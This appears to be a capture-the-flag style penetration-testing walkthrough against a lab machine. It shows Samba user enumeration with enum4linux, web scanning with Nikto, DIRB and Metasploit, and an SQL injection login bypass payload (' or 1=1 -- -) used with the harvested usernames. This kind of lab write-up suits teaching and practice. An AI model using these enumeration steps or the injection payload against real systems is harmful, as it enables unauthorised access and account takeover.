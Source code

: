 # Samba

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)

 SMB version:Samba 3.0.28a          no public exploit

Enumeration

-------------------------------------------------
Enum4linux

  Enum4linux is a tool for enumerating  information from Windows and Samba systems. It attempts to offer similar  functionality to enum.exe formerly available from www.bindview.com.
It is written in Perl and is basically a wrapper around the Samba tools smbclient, rpclient, net, and nmblookup.
Key features:
• RID cycling (When RestrictAnonymous is set to 1 on Windows 2000)
• User listing (When RestrictAnonymous is set to 0 on Windows 2000)
• Listing of group membership information
• Share enumeration
• Detecting if the host is in a workgroup or a domain
• Identifying the remote operating system
• Password policy retrieval

-------------------------------------------------

>enum4linux 192.168.1.6

============================ 
|    Users on 192.168.1.6    |
 ============================ 
index: 0x1 RID: 0x1f5 acb: 0x00000010 Account: nobody	Name: nobody	Desc: (null)
index: 0x2 RID: 0xbbc acb: 0x00000010 Account: robert	Name: ,,,	Desc: (null)
index: 0x3 RID: 0x3e8 acb: 0x00000010 Account: root	Name: root	Desc: (null)
index: 0x4 RID: 0xbba acb: 0x00000010 Account: john	Name: ,,,	Desc: (null)
index: 0x5 RID: 0xbb8 acb: 0x00000010 Account: loneferret	Name: loneferret,,,	Desc: (null)


Users found: nobody, robert, root, john and loneferret.

# Web server

-----------------------------------------------------
using Nikto
 
 Nikto is a popular Web server scanner that  tests Web servers for dangerous files/CGIs, outdated server software  and other issues. It also performs generic and server type specific  checks.
-------------------------------------------------------

>nikto -h 192.168.1.6

![image](https://user-images.githubusercontent.com/24206178/154683737-d600aba7-4791-44fb-8c09-384a202004ab.png)

Apache 2.2.8 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.

PHP 5.2.4 -2 ubuntu5.6 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch

This version is vulnarable!!!

Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names.


the vulnerable target machine has the HTTP PUT method allowed us to upload malicious backdoors =>  No it hasn't

----------------------------------------------------

>curl --head 192.168.1.6

HTTP/1.1 200 OK
Date: Thu, 28 Nov 2019 12:15:03 GMT
Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
X-Powered-By: PHP/5.2.4-2ubuntu5.6
Content-Type: text/html

--------------------------------------------------
Using DIRB

DIRB is a Web Content Scanner. It looks  for existing (and/or hidden) Web Objects. It basically works by  launching a dictionary-based attack against a web server and analyzing  the response. DIRB main purpose is to help in professional web  application auditing.

The tool “Dirb” is in-built in Kali  Linux, therefore, Open the terminal and type following command to start  brute force directory attack.
-------------------------------------------------


dirb http://192.168.1.6


GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.6/ ----
+ http://192.168.1.6/cgi-bin/ (CODE:403|SIZE:326)                                                                                                                                                                 
==> DIRECTORY: http://192.168.1.6/images/                                                                                                                                                                         
+ http://192.168.1.6/index (CODE:200|SIZE:1255)                                                                                                                                                                   
+ http://192.168.1.6/index.php (CODE:200|SIZE:1255)                                                                                                                                                               
==> DIRECTORY: http://192.168.1.6/john/                                                                                                                                                                           
+ http://192.168.1.6/logout (CODE:302|SIZE:0)                                                                                                                                                                     
+ http://192.168.1.6/member (CODE:302|SIZE:220)                                                                                                                                                                   
+ http://192.168.1.6/server-status (CODE:403|SIZE:331)     


Intersting Directores found: http://192.168.1.6/john/ 

-------------------------------------

Using Metasploit

-------------------------------------

>use auxiliary/scanner/http/dir_scanner

![image](https://user-images.githubusercontent.com/24206178/154683855-def63afd-8c57-4256-8997-c8adce6f566b.png)

Same result

----------------------------------------------------------

SQL injection

  SQL injection is a technique where a malicious user can inject SQL Commands into an SQL statement via a web page.
  An attacker could bypass  authentication, access, modify and delete data within a database. In  some cases, SQL Injection can even be used to execute commands on the  operating system, potentially allowing an attacker to escalate to more  damaging attacks inside of a network that sits behind a firewall.
  
 ---------------------------------------------------------
 
 username: robert
 password:' or 1=1 -- -

![image](https://user-images.githubusercontent.com/24206178/154683911-96f7e105-26d1-4b0c-bcfc-60bca2642bab.png)

username: john
 password:' or 1=1 -- -
 
 ![image](https://user-images.githubusercontent.com/24206178/154683937-dbe39ba5-a6d3-4bb5-aaeb-d6369fbe362f.png)


Now we have usrnames from SMB

and we have passwords from the web server

Lets go to the ssh
